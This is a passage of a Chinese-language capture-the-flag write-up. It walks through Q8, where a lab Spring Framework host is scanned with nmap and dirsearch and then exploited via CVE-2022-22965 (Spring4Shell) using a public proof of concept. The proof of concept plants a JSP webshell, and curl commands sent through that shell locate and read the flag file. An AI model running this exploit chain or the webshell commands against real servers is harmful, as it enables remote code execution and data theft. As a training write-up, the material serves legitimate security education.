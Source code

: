 賽後和asef以及ccccc有聊到這一題，發現居然是在前端的code有一串base64被hidden，裡面其實就是flag檔案的絕對位置，幹...真的通好久啊

### Q8

#### 題目敘述
>你透過情報收集，聽聞某集團子公司有項服務上線使用的測試主機(192.168.100.88)因資訊人員便宜行事竟放在公開網路上。
此測試機(Spring Framework)的某項專案裡存在一個Web表單服務(/greeting)，它存在著某個漏洞，讓你有機會可以進行攻擊，你需要先找到正確的服務端口與頁面，並藉由這個程式的漏洞取得遠端主機的控制權限，進而取得公司內部資料(flag.txt)。
>
>[連線IP/連結資訊]
>192.168.100.88
>
>[備註]
>答題系統Flag輸入格式：CSC{FLAG_最多長度25可包含數字、英文大小寫、特殊字元及底線}

#### Hint
[提示一]
使用Nmap與目錄掃描工具(http://192.168.100.88:???/???/greeting)

[提示二]
AccessLogValve

[提示三]
也許有公開的POC使用?

[提示四]
Webshell + URL Encode

[提示五]
找不到資料?使用linux指令find / -type f –name 來找看看吧

#### Exploit
1. 先用nmap掃Port -> 8888
2. dirsearch看sub folder -> hello
    ```bash
    $ dirsearch -u "http://192.168.100.88:8888"
    ...
    400   795B   http://192.168.100.88:8888/\..\..\..\..\..\..\..\..\..\etc\passwd
    400   795B   http://192.168.100.88:8888/a%5c.aspx
    302     0B   http://192.168.100.88:8888/hello    -> REDIRECTS TO: /hello/
    ...
    ```
3. 得知路徑為http://192.168.100.88:8888/hello/greeting
4. 根據AccessLogValve得知漏洞應該為CVE-2022-22965
5. 直接使用[現成工具](https://github.com/sunnyvale-it/CVE-2022-22965-PoC)達到RCE
    ```bash
    $ python exploit-core.py --url "http://192.168.100.88:8888/hello/greeting" --file shell
    [*] Resetting Log Variables.
    [*] Response code: 200
    [*] Modifying Log Configurations
    [*] Response code: 200
    [*] Response Code: 200
    [*] Resetting Log Variables.
    [*] Response code: 200
    [+] Exploit completed
    [+] Check your target for a shell
    [+] File: shell.jsp
    [+] Shell should be at: http://192.168.100.88:8888/shell.jsp?cmd=id
    $ curl http://192.168.100.88:8888/shell.jsp\?cmd\=find%20/%20-iname%20flag.txt --output -
    /usr/local/share/man/flag.txt
    $ curl http://192.168.100.88:8888/shell.jsp\?cmd\=cat%20/usr/local/share/man/flag.txt --output -
    CSC{FLAG_can_we_cut_to_the_chase?}
